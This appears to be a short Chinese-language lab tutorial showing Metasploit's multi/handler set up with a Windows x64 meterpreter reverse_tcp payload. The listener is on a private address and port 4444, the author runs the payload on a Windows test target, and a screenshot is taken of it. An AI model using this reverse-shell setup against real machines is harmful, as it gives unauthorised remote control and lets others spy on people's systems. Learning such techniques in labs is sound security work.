






我的服务器到货了,这次用ssh演示(操作和kali一样，只不过暂时没有图形化界面)
首先打开msf 终端输入msfconsole

启动主控端
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
设置payload
set lhsot 192.168.0.111
设置 host
set lport 4444
设置port
exploit
开始监听，等待被控端上线

中途输错了一个命令，忽略一下
打开windows靶机，将下载的被控端打开

msf检测到设备上线

screenshot可对靶机进行截图并上传到kali

